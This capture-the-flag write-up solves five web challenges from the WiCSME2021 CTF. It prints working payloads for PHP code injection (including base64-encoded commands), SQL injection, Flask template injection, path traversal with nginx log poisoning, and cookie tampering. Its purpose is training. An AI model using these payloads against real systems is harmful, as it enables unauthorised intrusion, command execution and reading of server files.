# WiCSME2021 CTF

# web challenges:

## 1- SimPlay
![Screenshot at 2021-11-25 19-26-09](https://user-images.githubusercontent.com/52857059/143482771-46d1f5ad-c4c8-4667-882a-6d2c23525010.png)

After clicking the Try Again button :

![Screenshot at 2021-11-25 19-32-26](https://user-images.githubusercontent.com/52857059/143484789-d5764601-d715-4dda-87f6-225147275112.png)

I try php code injection ${system('ls')}

![Screenshot at 2021-11-25 19-35-36](https://user-images.githubusercontent.com/52857059/143484816-0131587c-3d6c-43f1-b947-5afac58b96ae.png)

It works But I can't find flag file.
let's try another payload with base64_decode function --> ${system(base64_decode(bHMgLi4v))}

![Screenshot at 2021-11-25 19-39-34](https://user-images.githubusercontent.com/52857059/143484886-c4cdb4ad-025d-46f2-85c7-57850b62bd3d.png)

I got flag name :")
next step , let's read flag file --> ${system(base64_decode(Y2F0IC4uL2ZsYWcq))}

![Screenshot at 2021-11-25 19-47-54](https://user-images.githubusercontent.com/52857059/143484917-bf996a6b-275b-4965-9982-0742345a348d.png)


## 2- Potent Quotes
![Screenshot at 2021-11-25 19-54-12](https://user-images.githubusercontent.com/52857059/143547317-5ee748d1-aab4-4f33-bc0e-8816ecadb6e9.png)

After downloading the files' challenge locally , I found query of input 

![Screenshot at 2021-11-26 09-53-45](https://user-images.githubusercontent.com/52857059/143547089-f06f8c4b-4749-4c33-9f31-9dc5a7249e64.png)

Let's try injecting pass input with ``` 1' or '1'='1 ```

![Screenshot at 2021-11-26 10-01-17](https://user-images.githubusercontent.com/52857059/143547148-b89b03d8-01be-44c9-97ef-8640261a8e0e.png)


## 3- INCEPTION(easy)
![Screenshot at 2021-11-26 10-04-55](https://user-images.githubusercontent.com/52857059/143547836-fcee23ee-9792-461d-90ca-799a392a5460.png)

After downloading the files' challenge locally ,I noticed The application use template Engine .
I used template injection in python because the application was made with flask.

![Screenshot at 2021-11-26 10-07-03](https://user-images.githubusercontent.com/52857059/143549346-bbbcb5dd-9b70-4215-9bec-90de69252b20.png)

I noticed also The flag in the config so the payload is ```{{config.items()}}```

![Screenshot at 2021-11-26 10-19-37](https://user-images.githubusercontent.com/52857059/143549374-639f8833-23a9-4695-9c45-2b810932b34d.png)

HTB{r3s3rv4t1on_t0_h311_1s_a11_s3t!}

## 4- IMF - Landing
![Screenshot at 2021-11-26 10-22-39](https://user-images.githubusercontent.com/52857059/143550824-7b43ab7e-56f6-47b9-aade-9470983c48de.png)

let's try path traversal 

![Screenshot at 2021-11-26 10-23-12](https://user-images.githubusercontent.com/52857059/143551120-363c8368-05e9-407f-8147-b3cab69b1f20.png)
It works.

I noticed the server is nginx so we could read the access.log ```/var/log/nginx/access.log```

![Screenshot at 2021-11-26 10-25-59](https://user-images.githubusercontent.com/52857059/143551202-38954555-d1cd-452b-818e-2db06bcc1bd4.png)

I notices the user-agent was printed in access.log

![Screenshot at 2021-11-26 10-38-17](https://user-images.githubusercontent.com/52857059/143551771-872a1ce2-bc54-40b3-bff4-9a29529861a5.png)

let's inject the user-agent with php code injection ```<?php system('ls') ?> ```

![Screenshot at 2021-11-26 10-28-55](https://user-images.githubusercontent.com/52857059/143551895-9deb0453-0197-4ae3-9255-de6f8cca9fdf.png)

![Screenshot at 2021-11-26 10-29-32](https://user-images.githubusercontent.com/52857059/143551935-8d010c3e-b79f-42bf-951b-a7a2ea93acda.png)

Let's try ```<?php system('ls ../') ?>```

![Screenshot at 2021-11-26 10-30-40](https://user-images.githubusercontent.com/52857059/143552105-99f4c676-95a2-4fd3-9c4e-c3210e4d8a64.png)

![Screenshot at 2021-11-26 10-30-54](https://user-images.githubusercontent.com/52857059/143552132-eaf7f512-6dec-4121-a88f-d662d597ddeb.png)

With ```<?php system('cat ../flag*') ?>``` we can read the flag

![Screenshot at 2021-11-26 10-31-40](https://user-images.githubusercontent.com/52857059/143552300-c8c42619-690a-4342-a5a0-46181cd2d3fb.png)

![Screenshot at 2021-11-26 10-31-54](https://user-images.githubusercontent.com/52857059/143552310-8137f420-2872-48f9-8254-cdfddc5e1322.png)







## 5- BUY THE FLAG(easy)

this challenge depend on decreption let's see it .
![Screenshot at 2021-07-21 22-41-03](https://user-images.githubusercontent.com/52857059/126557249-e4722ab1-47e7-48fa-ad35-6a9f4eb9d8e9.png)

With a little care we notice that by changing the cookie it returns to the original value so it is sensitive to cookies according to the cookie
```html
Cookie:3054505242564F465A55567A59456257644662475647644B5A56597759466255426A57735A315431305756584A6C566A746B567759565531736D5956683261546C58557849474E78306D56
```
then by unhexing and reversing and decoding base64 5 times , we will get 
```html
User_is_=Fread
```
now we have to change value to Us3r & encrept User_is_=Us3r hexing & reversing and encoding base64 5 times
after that u will get the flag 

![Screenshot at 2021-07-21 16-20-32](https://user-images.githubusercontent.com/52857059/126558141-f3f012a4-3f41-4d53-9791-f88a2961025d.png)

